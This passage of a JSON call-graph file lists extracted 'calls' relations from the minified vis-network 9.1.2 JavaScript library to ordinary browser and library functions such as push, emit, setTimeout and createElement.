"target": "supports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "compute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "preventSrc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "recognize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "recognizeWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "requireFailure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "process"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "tryEmit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "failTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "failTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "hasRequireFailures"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "tryEmit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "attrTest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "directionTest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "tryEmit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "recognizeWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "requireFailure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "preventDefaults"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "canRecognizeWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "recognize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "initEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "deactivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "deactivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "deactivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "deactivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "activate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_bindHammer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_isColorString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "closeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_generateHueCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "closeCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_updatePicker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "alert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_updatePicker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_updatePicker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_updatePicker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clearRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "putImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "circle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 